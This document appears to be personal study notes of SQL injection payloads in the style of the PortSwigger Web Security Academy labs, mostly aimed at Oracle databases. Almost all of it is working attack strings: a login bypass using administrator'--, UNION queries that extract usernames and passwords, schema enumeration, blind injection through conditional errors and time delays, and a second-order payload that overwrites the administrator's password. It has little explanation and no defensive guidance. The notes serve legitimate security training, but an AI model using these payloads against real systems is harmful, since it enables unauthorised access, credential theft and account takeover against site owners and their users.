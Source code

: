 https://portswigger.net/web-security/sql-injection  
*Note: all code below are meant for OracleDB (except `information_schema` related), please check [Syntax Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) for other variants'*  

### WHERE Clause
`SELECT * FROM products WHERE category = '{}' AND released = 1`  
Attack (GET URL): ?category='+OR+1%3d1--  

### Login Bypass (Subvert Logic)
`SELECT * FROM users WHERE username = '{}' AND password = '{}'`  
Attack (POST Method): username=administrator'--&password=123  

### UNION Attacks
**Conditions**  
1. Both queries must return same number of columns  
`ORDER BY {index number}`  
2. Compatible data types in each column  
`UNION SELECT NULL,'a',NULL,NULL`  

**Techniques**  
1. Retrieving multiple values within a single column (concatenation)  
`UNION SELECT NULL,username||'~'||password FROM users`  

### Examine Database
`SELECT banner FROM v$version`  
`SELECT table_name FROM all_tables`  
`SELECT column_name FROM all_tab_columns WHERE table_name='{}'`  

**Non-Oracle DB:**  
`SELECT table_name FROM information_schema.tables`  
`SELECT column_name FROM information_schema.columns WHERE table_name='{}'`  

### Blind SQLi
Backend Query: `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '{}'`  

**Techniques**  
1. Conditional Responses  
possible due to observable difference in response  
`' AND '1'='1`  
`' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a`  
2. Conditional Responses by triggering SQL errors  
possible due to mishandling of SQL errors  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` (check if username 'administrator' exists)  
`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
3. Time Delays  
possible due to synchronous processing of SQL queries  
**MySQL:** `'; IF (1=1) SELECT SLEEP(10)--`  

### Second-order SQLi
Input is safely handled initially and stored in database, but when data is later accessed and processed...   
*Username:* `badguy'; UPDATE users SET password='letmein' WHERE user='administrator'--`
Backend Query: `SELECT * from user_options WHERE username='{}'`
